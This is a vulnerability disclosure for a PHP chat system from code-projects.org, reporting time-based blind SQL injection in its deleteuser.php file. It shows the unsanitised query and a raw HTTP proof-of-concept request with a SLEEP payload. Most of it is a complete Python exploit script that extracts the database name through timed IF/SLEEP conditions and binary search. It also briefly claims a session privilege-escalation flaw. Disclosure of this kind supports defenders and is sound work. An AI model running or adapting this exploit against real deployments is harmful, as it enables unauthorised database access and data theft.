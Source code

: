 # chat system has sql injection in deleteuser.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



deleteuser.php



## describe



Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if(isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `user` where userid='$id'");
	}

?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.



There is also a **session** privilege escalation vulnerability, which can be exploited to **bypass** the **session** checks for admin functionalities as a regular user.



## POC

```http
POST /admin/deleteuser.php HTTP/1.1
Host: 127.0.0.1:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 28
Origin: http://127.0.0.1:88
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:88/admin/user.php
Cookie: PHPSESSID=b5htgkjnhs0etvlaida5e47sjq
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=3' or sleep(5) #&del=1
```



Send this request, you can observe an additional 5-second time delay triggered by the time-based injection.



## Exploit

To retrieve the current database name.

```python
import requests
import string
import time
import logging

# Configuration
TARGET_URL = "http://127.0.0.1:88/admin/deleteuser.php"  # URL
SESSION_COOKIE = "PHPSESSID=b5htgkjnhs0etvlaida5e47sjq"  # session ID
DELAY_TIME = 3  # sleep_time
TIME_THRESHOLD = 2.5  # The threshold for determining the delay
MAX_DB_NAME_LENGTH = 32  # The maximum expected length of the database name
CHARSET = ''.join([chr(i) for i in range(32, 127)])  # all ASCII

# log
logging.basicConfig(filename='sql_injection.log', level=logging.INFO,
                    format='%(asctime)s - %(levelname)s - %(message)s')

# Headers
HEADERS = {
    "Host": "127.0.0.1:88",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://127.0.0.1:88",
    "DNT": "1",
    "Sec-GPC": "1",
    "Connection": "keep-alive",
    "Referer": "http://127.0.0.1:88/admin/user.php",
    "Cookie": SESSION_COOKIE,
    "Sec-Fetch-Dest": "empty",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Site": "same-origin",
    "Priority": "u=0",
}

# Function to send payload and measure response time with retry mechanism
def send_payload(payload, retries=3):
    data = {
        "id": payload,
        "del": "1"
    }
    for attempt in range(retries):
        start_time = time.time()
        try:
            response = requests.post(TARGET_URL, headers=HEADERS, data=data, timeout=DELAY_TIME + 5)
            end_time = time.time()
            elapsed = end_time - start_time
            logging.info(f"Payload: {payload} | Response Time: {elapsed:.2f}s")
            print(f"[>] Payload: {payload} | Response Time: {elapsed:.2f}s")
            return elapsed
        except requests.exceptions.Timeout:
            logging.warning(f"Payload caused timeout: {payload} (Attempt {attempt + 1}/{retries})")
            print(f"[!] Payload caused timeout: {payload} (Attempt {attempt + 1}/{retries})")
            if attempt == retries - 1:
                return DELAY_TIME + 1
    return DELAY_TIME + 1

# Function to check if a condition is true based on response delay using IF
def is_condition_true(condition):
    payload = f"3' OR IF({condition}, SLEEP({DELAY_TIME}), 0) #"
    response_time = send_payload(payload)
    return response_time >= TIME_THRESHOLD

# Function to test basic SLEEP injection
def test_sleep():
    payload = "3' OR IF(1=1, SLEEP(3), 0) #"
    print("[*] Testing basic IF(SLEEP) injection...")
    response_time = send_payload(payload)
    if response_time >= DELAY_TIME:
        print("[+] Basic IF(SLEEP) injection works.")
        return True
    else:
        print("[-] Basic IF(SLEEP) injection failed.")
        return False

# Function to determine the length of the database name
def get_db_name_length():
    length = 0
    while length < MAX_DB_NAME_LENGTH:
        condition = f"CHAR_LENGTH(database()) > {length}"
        if is_condition_true(condition):
            length += 1
            print(f"[*] CHAR_LENGTH(database()) > {length - 1} is True")
        else:
            break
    return length

# Function to get a single character at a specific position using binary search
def get_db_char(position):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        condition = f"ASCII(SUBSTRING(database(),{position},1)) > {mid}"
        if is_condition_true(condition):
            low = mid + 1
        else:
            high = mid - 1
    if 32 <= low <= 126:
        return chr(low)
    return None

# Main function to extract the database name
def extract_database_name():
    print("[*] Starting Time-Based Blind SQL Injection to extract database name...")

    # Test basic SLEEP injection
    if not test_sleep():
        print("[-] Basic SLEEP injection failed. Aborting further tests.")
        return

    # Proceed with extracting database name
    db_length = get_db_name_length()
    print(f"[*] Detected database name length: {db_length}")
    db_name = ""
    for position in range(1, db_length + 1):
        char = get_db_char(position)
        if char:
            db_name += char
            print(f"[+] Position {position}: '{char}'")
        else:
            print(f"[-] Failed to determine character at position {position}")
            break
    print(f"\n[+] Extracted Database Name: {db_name}")

if __name__ == "__main__":
    extract_database_name()

```



**Result**

![sql-inject1](assest/sql-inject1.png)









